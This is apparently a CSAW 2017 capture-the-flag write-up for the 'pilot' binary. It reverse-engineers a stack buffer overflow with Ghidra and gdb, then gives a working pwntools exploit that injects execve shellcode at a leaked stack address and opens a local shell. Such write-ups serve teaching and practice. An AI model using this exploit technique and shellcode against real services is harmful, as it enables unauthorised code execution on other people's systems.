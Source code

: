 # Csaw 2017 pilot
Let's take a look at the binary:
```bash
$	file pilot 
pilot: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/l, for GNU/Linux 2.6.32, BuildID[sha1]=6ed26a43b94fd3ff1dd15964e4106df72c01dc6c, stripped
$	./pilot 
[*]Welcome DropShip Pilot...
[*]I am your assitant A.I....
[*]I will be guiding you through the tutorial....
[*]As a first step, lets learn how to land at the designated location....
[*]Your mission is to lead the dropship to the right location and execute sequence of instructions to save Marines & Medics...
[*]Good Luck Pilot!....
[*]Location:0x7ffcfd6d92c0
[*]Command:15935728
```

So we can see that we are dealing with a 64 bit binary. 
When we run it, we see that it prints out a lot of text, including what looks like a memory address from the stack memory region. It then prompts us for input. Looking through the functions in Ghidra, we don't see a function labeled main. However we can find function FUN_004009a6 which contains a lot of strings that we saw the program and output, and it looks like what we would expect to see:
```c

undefined8 FUN_004009a6(void)

{
  basic_ostream *this;
  basic_ostream<char,std--char_traits<char>> *this_00;
  ssize_t sVar1;
  undefined8 uVar2;
  undefined input [32];
  
  setvbuf(stdout,(char *)0x0,2,0);
  setvbuf(stdin,(char *)0x0,2,0);
  this = operator<<<std--char_traits<char>>((basic_ostream *)cout,"[*]Welcome DropShip Pilot...");
  operator<<((basic_ostream<char,std--char_traits<char>> *)this,endl<char,std--char_traits<char>>);
  this = operator<<<std--char_traits<char>>((basic_ostream *)cout,"[*]I am your assitant A.I....");
  operator<<((basic_ostream<char,std--char_traits<char>> *)this,endl<char,std--char_traits<char>>);
  this = operator<<<std--char_traits<char>>
                   ((basic_ostream *)cout,"[*]I will be guiding you through the tutorial....");
  operator<<((basic_ostream<char,std--char_traits<char>> *)this,endl<char,std--char_traits<char>>);
  this = operator<<<std--char_traits<char>>
                   ((basic_ostream *)cout,
                    "[*]As a first step, lets learn how to land at the designated location....");
  operator<<((basic_ostream<char,std--char_traits<char>> *)this,endl<char,std--char_traits<char>>);
  this = operator<<<std--char_traits<char>>
                   ((basic_ostream *)cout,
                                        
                    "[*]Your mission is to lead the dropship to the right location and executesequence of instructions to save Marines & Medics..."
                   );
  operator<<((basic_ostream<char,std--char_traits<char>> *)this,endl<char,std--char_traits<char>>);
  this = operator<<<std--char_traits<char>>((basic_ostream *)cout,"[*]Good Luck Pilot!....");
  operator<<((basic_ostream<char,std--char_traits<char>> *)this,endl<char,std--char_traits<char>>);
  this = operator<<<std--char_traits<char>>((basic_ostream *)cout,"[*]Location:");
  this_00 = (basic_ostream<char,std--char_traits<char>> *)
            operator<<((basic_ostream<char,std--char_traits<char>> *)this,input);
  operator<<(this_00,endl<char,std--char_traits<char>>);
  operator<<<std--char_traits<char>>((basic_ostream *)cout,"[*]Command:");
  sVar1 = read(0,input,0x40);
  if (sVar1 < 5) {
    this = operator<<<std--char_traits<char>>((basic_ostream *)cout,"[*]There are no commands....");
    operator<<((basic_ostream<char,std--char_traits<char>> *)this,endl<char,std--char_traits<char>>)
    ;
    this = operator<<<std--char_traits<char>>((basic_ostream *)cout,"[*]Mission Failed....");
    operator<<((basic_ostream<char,std--char_traits<char>> *)this,endl<char,std--char_traits<char>>)
    ;
    uVar2 = 0xffffffff;
  }
  else {
    uVar2 = 0;
  }
  return uVar2;
}
```

Looking through this code, we see that it prints a lot of text. However there are two important sections. The first is where it scans in the data:
```bash
  sVar1 = read(0,input,0x40);
```
We can see that it scans in 0x40 bytes worth of input into input. But the char array input can only hold 32 bytes worth of input, so we have an overflow. Also we can see that the address printed is an infoleak (information about the program that is leak) for the start of our input in memory on the stack:
```c
  this = operator<<<std--char_traits<char>>((basic_ostream *)cout,"[*]Location:");
  this_00 = (basic_ostream<char,std--char_traits<char>> *)
            operator<<((basic_ostream<char,std--char_traits<char>> *)this,input);
  operator<<(this_00,endl<char,std--char_traits<char>>);
```
Looking at the stack layout in Ghidra, there doesn't really look like there is anything between the start of our input and the return address. With our overflow we should be able to overwrite the return address and get code execution:
```c
                             **************************************************************
                             *                          FUNCTION                          *
                             **************************************************************
                             undefined FUN_004009a6()
             undefined         AL:1           <RETURN>
             undefined[32]     Stack[-0x28]   input                                   XREF[2]:     00400aa4(*), 
                                                                                                   00400acf(*)  
                             FUN_004009a6                                    XREF[4]:     entry:004008cd(*), 
                                                                                          entry:004008cd(*), 00400de0, 
                                                                                          00400e80(*)  
        004009a6 55              PUSH       RBP
```

Let's find the offset between the start of our input and the return address using gdb. We will set a breakpoint for right after the read call, and look at the memory there:
```bash
gef➤  b *0x400ae5
Breakpoint 1 at 0x400ae5
gef➤  r
Starting program: /Hackery/pod/modules/bof_shellcode/csaw17_pilot/pilot 
[*]Welcome DropShip Pilot...
[*]I am your assitant A.I....
[*]I will be guiding you through the tutorial....
[*]As a first step, lets learn how to land at the designated location....
[*]Your mission is to lead the dropship to the right location and execute sequence of instructions to save Marines & Medics...
[*]Good Luck Pilot!....
[*]Location:0x7fffffffde80
[*]Command:15935728
[ Legend: Modified register | Code | Heap | Stack | String ]
───────────────────────────────────────────────────────────────── registers ────
$rax   : 0x9               
$rbx   : 0x0               
$rcx   : 0x00007ffff776b081  →  0x5777fffff0003d48 ("H="?)
$rdx   : 0x40              
$rsp   : 0x00007fffffffde80  →  0x3832373533393531 ("15935728"?)
$rbp   : 0x00007fffffffdea0  →  0x0000000000400b90  →   push r15
$rsi   : 0x00007fffffffde80  →  0x3832373533393531 ("15935728"?)
$rdi   : 0x0               
$rip   : 0x0000000000400ae5  →   cmp rax, 0x4
$r8    : 0x0               
$r9    : 0x00007ffff7fd7d00  →  0x00007ffff7fd7d00  →  [loop detected]
$r10   : 0x6               
$r11   : 0x246             
$r12   : 0x00000000004008b0  →   xor ebp, ebp
$r13   : 0x00007fffffffdf80  →  0x0000000000000001
$r14   : 0x0               
$r15   : 0x0               
$eflags: [zero CARRY PARITY adjust sign trap INTERRUPT direction overflow resume virtualx86 identification]
$cs: 0x0033 $ss: 0x002b $ds: 0x0000 $es: 0x0000 $fs: 0x0000 $gs: 0x0000 
───────────────────────────────────────────────────────────────────── stack ────
0x00007fffffffde80│+0x0000: 0x3832373533393531	 ← $rsp, $rsi
0x00007fffffffde88│+0x0008: 0x000000000040080a  →  <setvbuf@plt+10> add cl, ch
0x00007fffffffde90│+0x0010: 0x00007fffffffdf80  →  0x0000000000000001
0x00007fffffffde98│+0x0018: 0x0000000000000000
0x00007fffffffdea0│+0x0020: 0x0000000000400b90  →   push r15	 ← $rbp
0x00007fffffffdea8│+0x0028: 0x00007ffff767cb97  →  <__libc_start_main+231> mov edi, eax
0x00007fffffffdeb0│+0x0030: 0x0000000000000000
0x00007fffffffdeb8│+0x0038: 0x00007fffffffdf88  →  0x00007fffffffe2cc  →  "/Hackery/pod/modules/bof_shellcode/csaw17_pilot/pi[...]"
─────────────────────────────────────────────────────────────── code:x86:64 ────
     0x400ad8                  mov    rsi, rax
     0x400adb                  mov    edi, 0x0
     0x400ae0                  call   0x400820 <read@plt>
 →   0x400ae5                  cmp    rax, 0x4
     0x400ae9                  setle  al
     0x400aec                  test   al, al
     0x400aee                  je     0x400b2f
     0x400af0                  mov    esi, 0x400d90
     0x400af5                  mov    edi, 0x6020a0
─────────────────────────────────────────────────────────────────── threads ────
[#0] Id 1, Name: "pilot", stopped, reason: BREAKPOINT
───────────────────────────────────────────────────────────────────── trace ────
[#0] 0x400ae5 → cmp rax, 0x4
[#1] 0x7ffff767cb97 → __libc_start_main(main=0x4009a6, argc=0x1, argv=0x7fffffffdf88, init=<optimized out>, fini=<optimized out>, rtld_fini=<optimized out>, stack_end=0x7fffffffdf78)
[#2] 0x4008d9 → hlt 
────────────────────────────────────────────────────────────────────────────────

Breakpoint 1, 0x0000000000400ae5 in ?? ()
gef➤  search-pattern 15935728
[+] Searching '15935728' in memory
[+] In '[stack]'(0x7ffffffde000-0x7ffffffff000), permission=rwx
  0x7fffffffde80 - 0x7fffffffde88  →   "15935728[...]" 
gef➤  i f
Stack level 0, frame at 0x7fffffffdeb0:
 rip = 0x400ae5; saved rip = 0x7ffff767cb97
 called by frame at 0x7fffffffdf70
 Arglist at 0x7fffffffde78, args: 
 Locals at 0x7fffffffde78, Previous frame's sp is 0x7fffffffdeb0
 Saved registers:
  rbp at 0x7fffffffdea0, rip at 0x7fffffffdea8
```
So we can see that the offset between the start of our input and the return address is `0x7fffffffdea8 - 0x7fffffffde80 = 0x28` bytes. So we have a way to overwrite the return address, a place to store our shellcode, and we know where it is in memory. With this we can write our exploit:
```py
from pwn import *

target = process('./pilot')

print target.recvuntil("[*]Location:")

leak = target.recvline()

inputAdr = int(leak.strip("\n"), 16)

payload = ""
payload += "\x31\xf6\x48\xbf\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdf\xf7\xe6\x04\x3b\x57\x54\x5f\x0f\x05" 

# Padding to the return address
payload += "0"*(0x28 - len(payload))

# Overwrite the return address with the address of the start of our input
payload += p64(inputAdr)

# Send the payload, drop to an interactive shell to use the shell we pop
target.send(payload)

target.interactive()
```

and here we go
```bash
$	python exploit.py 
[+] Starting local process './pilot': pid 5764
[*]Welcome DropShip Pilot...
[*]I am your assitant A.I....
[*]I will be guiding you through the tutorial....
[*]As a first step, lets learn how to land at the designated location....
[*]Your mission is to lead the dropship to the right location and execute sequence of instructions to save Marines & Medics...
[*]Good Luck Pilot!....
[*]Location:
[*] Switching to interactive mode
[*]Command:$ w
 20:49:30 up  3:36,  1 user,  load average: 0.32, 0.11, 0.09
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
guyinatu tty7     :0               17:14    3:36m  1:02   0.17s /sbin/upstart --user
$ ls
exploit.py  pilot
```

